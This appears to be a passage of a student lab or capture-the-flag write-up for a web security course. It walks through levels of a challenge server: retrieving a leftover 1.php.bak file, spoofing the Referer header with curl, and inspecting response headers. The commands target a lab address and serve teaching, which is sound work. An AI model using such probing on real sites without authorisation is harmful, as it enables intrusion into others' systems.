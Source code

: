 ### Task 3: http://10.214.160.13:10000/
#### Level 1.

The comment hint that there is a `1.php.bak` still exists. So we can access and download it. Then we can find the entry of the next level:

```html
<a href="the2nd.php">进入第二关</a>
```

#### Level 2 & 3.

In the second level, there is a button, whatever you submit, it always redirect to `3rd.php` which ask you "where are you from" and then redirect back to `the2nd.php`:

```text
❯ curl -X POST -d "text=" http://10.214.160.13:10000/the2nd.php
...
    jumping...
    <script>
        function jump(url){
            document.body.appendChild(document.createElement('iframe')).src='javascript:"<script>top.location.replace(\''+url+'\')<\/script>"';
        }
        setInterval("jump('3rd.php')",2000);
...
❯ curl http://10.214.160.13:10000/3rd.php
<script>alert('你从哪里来？');window.location='the2nd.php';</script>
```

With the same idea of task 2 level 2, we can set the referer field to `http://10.214.160.13:10000/the2nd.php` to "answer" the "question":

```text
❯ curl --referer http://10.214.160.13:10000/the2nd.php -v http://10.214.160.13:10000/3rd.php
*   Trying 10.214.160.13:10000...
* Connected to 10.214.160.13 (10.214.160.13) port 10000 (#0)
> GET /3rd.php HTTP/1.1
> Host: 10.214.160.13:10000
> User-Agent: curl/7.71.1
> Accept: */*
> Referer: http://10.214.160.13:10000/the2nd.php
>
...
<button type="button" onclick="javascript:location.href='di4guan.php'">你又要到哪里去</button>
...
```

#### Level 4.

No any information in the page source. Then try to curl and get the response header:

<div style="text-align: center;">
<img src="/assets/images/sec/netsec/lab1/3-1.png" width="80%" style="margin: 0 auto;">
</div>
